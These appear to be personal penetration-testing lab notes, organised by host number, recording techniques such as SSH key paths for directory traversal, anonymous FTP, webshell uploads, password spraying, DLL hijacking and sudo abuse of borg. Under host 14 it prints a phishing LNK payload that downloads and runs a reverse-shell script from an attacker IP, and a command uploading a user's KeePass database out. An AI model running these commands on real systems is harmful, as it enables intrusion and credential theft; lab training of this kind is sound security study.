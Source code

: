 -  Directory traversal SSH keys can be in following locations
```bash
id_rsa 
id_ecdsa 
id_ecdsa_sk 
id_ed25519 
id_ed25519_sk 
id_dsa
```

#### 247
- Learned to how to do nmap scans and with a full nmap scan FTP port was there with a PDF
```bash
ftp anonymous:192.168.201.247 14020
```

- Always check for all ports and low hanging fruits SMB, FTP
- If you find creds/keys check everything against same port.

### 246

- There was  a php file called test.php that had a shell 
- User WWW had root permissions

### 248

- If its too easy it can be a rabbit hole, beta dll was a rabbit hole
- it was a password in path variable 
- If there is a new password and no user spray it

### 249

- If one reverseshell terminates try another.
- Always remember the OS
- Used default creds on the CMS, uploaded a shell with .pHp extension and executed ConPTY
- Powershell history had a password

### 14

- After phishing for jim, got access for this machine.
- Encoded Conpty did not work for this machine but below worked in LNK file
```powershell
powershell.exe  -WindowStyle hidden -c "IEX(IWR http://192.168.45.221:8000/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.221 443"
```
- There was Keepass in downloads which is a hint that user has something in his keepas file 
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.45.221/upload.php','C:\Users\jim\Documents\Database.kdbx')
```

### 7

- initial Access was granted by a CME spray
- Scheduler Service DLL hijacking was for privilege escalation.


### 191

- dmzadmin was a local user and needed to emit the domain while RDP

### 19

- Found the key from 7 and SSHed it and found borg sudo commands are allowed
- Since its backup related ran below command
```bash
find / -name *backup* 2>/dev/null
```

Then played with borg to extract the data

```bash
sudo /usr/bin/borg list /opt/borgbackup::home
sudo /usr/bin/borg extract /opt/borgbackup::home --stdout ##worked
sudo /usr/bin/borg mount /opt/borgbackup::home /tmp/mount
```

### 20

#### FREEBSD facts
- sudo is doas sometimes might have to give full path to doas binary 
